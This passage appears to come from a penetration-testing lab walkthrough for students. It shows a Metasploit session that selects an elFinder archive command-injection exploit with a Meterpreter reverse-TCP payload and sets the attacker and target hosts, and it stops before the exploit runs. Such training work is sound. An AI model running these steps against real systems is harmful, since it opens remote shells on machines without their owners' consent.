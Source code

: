 ```
msf6 > search elFinder

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/multi/http/builderengine_upload_exec                       2016-09-18       excellent  Yes    BuilderEngine Arbitrary File Upload Vulnerability and execution
   1  exploit/unix/webapp/tikiwiki_upload_exec                           2016-07-11       excellent  Yes    Tiki Wiki Unauthenticated File Upload Vulnerability
   2  exploit/multi/http/wp_file_manager_rce                             2020-09-09       normal     Yes    WordPress File Manager Unauthenticated Remote Code Execution
   3  exploit/linux/http/elfinder_archive_cmd_injection                  2021-06-13       excellent  Yes    elFinder Archive Command Injection
   4  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection

Interact with a module by name or index. For example info 4, use 4 or use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
```

Students then need to select the exploit having the number tag 3 using the `use` command:

Code: shell

```shell
use 3
```

```
msf6 > use 3

[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/elfinder_archive_cmd_injection) >
```

After using the `show options` command, students will find out that they need to set two options, `LHOST` and `RHOSTS`:

Code: shell

```shell
set LHOST tun0 
set RHOSTS STMIP
```

```
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > setg LHOST tun0

LHOST => tun0
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set RHOSTS 10.129.161.215

RHOSTS => 10.129.161.215
```
